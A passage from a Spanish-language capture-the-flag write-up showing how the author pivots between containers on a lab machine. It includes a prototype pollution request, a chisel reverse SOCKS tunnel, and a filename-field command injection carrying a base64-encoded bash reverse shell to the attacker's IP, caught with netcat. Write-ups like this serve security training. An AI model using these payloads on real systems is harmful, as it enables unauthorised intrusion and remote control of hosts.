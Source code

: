 Puedo volver a efectuar el ```Prototype Pollution``` para ganar acceso a otro contenedor. Para tener conectividad desde mi equipo, subo el ```chisel``` para montarme un tunel por SOCKS5

En mi equipo local lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

En el contenedor me conecto como cliente

```null
root@webapp-deployment-9546bc7cb-6r7sq:/tmp# ./chisel client 10.10.16.6:1234 R:socks &>/dev/null & disown
```

A través de proxychains, me asigno los privilegios para poder enviarme la reverse shell

```null
proxychains curl -s -X PUT -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload": "true"}}}' http://10.42.0.46:3000 | jq
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
{
  "ok": true
}
```

```null
proxychains curl -s -X POST -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"todo.txt & echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxJwo= | base64 -d |bash"}' http://10.42.0.46:3000/upload | jq
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
{
  "ok": true,
  "Uploaded_File": "todo.txt & echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxJwo= | base64 -d |bash"
}
```

Gano acceso en una sesión de netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.235] 63757
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@devnode-deployment-776dbcf7d6-sr6vj:/usr/src/app# script /dev/null -c bash
<bcf7d6-sr6vj:/usr/src/app# script /dev/null -c bash   
Script started, file is /dev/null
root@devnode-deployment-776dbcf7d6-sr6vj:/usr/src/app# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@devnode-deployment-776dbcf7d6-sr6vj:/usr/src/app# export TERM=xterm
root@devnode-deployment-776dbcf7d6-sr6vj:/usr/src/app# export SHELL=bash
root@devnode-deployment-776dbcf7d6-sr6vj:/usr/src/app# stty rows 55 columns 209
```
